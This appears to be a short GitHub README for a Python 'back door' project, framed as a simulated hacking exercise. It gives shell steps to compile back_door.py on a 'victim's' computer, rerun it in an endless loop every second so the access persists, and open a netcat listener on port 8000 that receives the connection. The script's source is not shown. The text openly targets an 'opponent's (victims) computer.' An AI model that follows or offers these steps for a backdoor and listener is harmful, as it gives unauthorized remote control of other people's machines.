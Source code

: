 


[![N|Solid](https://avatars2.githubusercontent.com/u/1525981?v=3&s=200)  [![N|Solid](https://www.doubleglazingontheweb.co.uk/wp-content/uploads/2015/11/white-upvc-back-door-250x250.jpg) 




##This is really simple Python hacking code. 

##easy to saying, you can use the Python built-in function to open the back-door on your opponent's(victims) computer.


##But it's a simulated hacking exercise,
##Assuming that the victim executes the python script that was compiled.
##The first thing we do is start to think about it.

##We will use a great open source tool called  "NetCat"
http://netcat.sourceforge.net/

##If you are a user of OSX, you can download it easily. by 

```sh
$ brew install netcat
```
##Or if you are a linux user

```sh
$ apt-get install netcat
```

##Right now you can run in your own backyard or anywhere 


```sh
**********************victim's computer or shell***********************
$ ##lets compile###
$ python -m compileall back_door.py    
-------------------------------------------------------

this is shell bash script 
which mean , run this script every 1 sec..!
-----------------------------------------------
$ while true; do python back_door.pyc; sleep 1; done


```


##Open another shell try this netcat command
```sh
$ netcat -l -p 8000 
```

